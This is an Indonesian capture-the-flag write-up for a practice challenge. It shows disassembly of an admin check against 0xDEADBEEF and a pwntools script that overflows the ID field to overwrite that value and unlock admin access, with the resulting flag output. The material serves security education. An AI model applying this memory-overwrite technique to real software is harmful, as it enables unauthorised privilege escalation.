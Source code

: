 Maaf yaah murid-murid CTFR :( kalian jadi bisa akses admin karena kesalahan mimin. Ini sudah di fix, silahkan daftar lagi yahh :D.

```bash 
nc 103.157.96.13 7774
```

Download : https://mega.nz/#!x4RE2LSI!3U-6F_9GO7PeBeyDDhyoHGZujOVvUN21CZI3xZWdcug

Proses Excploitasinya sama seperti Challange Sekola CTFT #1, hanya saja ditambah validasi `if (mahasiswa->akses_admin == 0xDEADBEEF) {`  kalo dalam bentuk dissamble

```bash
...
   0x0000000000401428 <+598>:   jne    0x4014ef <main+797>
   0x000000000040142e <+604>:   mov    rax,QWORD PTR [rip+0x2c9b]        # 0x4040d0 <mahasiswa>
   0x0000000000401435 <+611>:   test   rax,rax
   0x0000000000401438 <+614>:   je     0x4014de <main+780>
   0x000000000040143e <+620>:   mov    rax,QWORD PTR [rip+0x2c8b]        # 0x4040d0 <mahasiswa>
   0x0000000000401445 <+627>:   mov    eax,DWORD PTR [rax+0x24]
   0x0000000000401448 <+630>:   cmp    eax,0xdeadbeef
   0x000000000040144d <+635>:   jne    0x4014c1 <main+751>
...
```
yang berubah hanya pada bagian `cmp    eax,0xdeadbeef` dimana jika nilai `eax = 0xdeadbeef` hasilnya `eax=true`, exploitasinya menggunakan pwntool aja, karena nilai `0xdeadbeed` kalo diterjemahin kedalam ascii akan berbentuk non printable character.

```python
from pwn import *

r = p64(0xdeadbeef)

p = process('./chal10')
#p = remote('103.157.96.13', 7774)
p.sendline('1') # pilih input Nama
p.sendline('kulikode') # isi Nama
p.sendline('2') #pilih Input ID
p.sendline('kuli'+r) # isi ID dengan kuli + 0xdeadbeed
p.sendline('4') # pilih akses admin
p.recvline()
res = p.recv()
print res
```

hasilnya
```bash
$ python2 solve.py
[+] Starting local process './chal10': pid 6120
Maaf sebelumnya, aplikasi kemarin terdapat celahan yang dapat memungkinkan kalian dapat mengakses admin.
Hal tersebut sudah kami fix!

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : Nama: 
==============================
Selamat datang kulikode di sekolah CTFR
==============================

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : ID: ID Telah Diterapkan!

Silahkan Pilih Menu: 
1. Input Nama
2. Input ID
3. Reset
4. Akses Admin
Input : 
==============================
= AKSES ADMIN DITERIMA =
==============================
Admin : Here is your flag CTFR{redacted}
```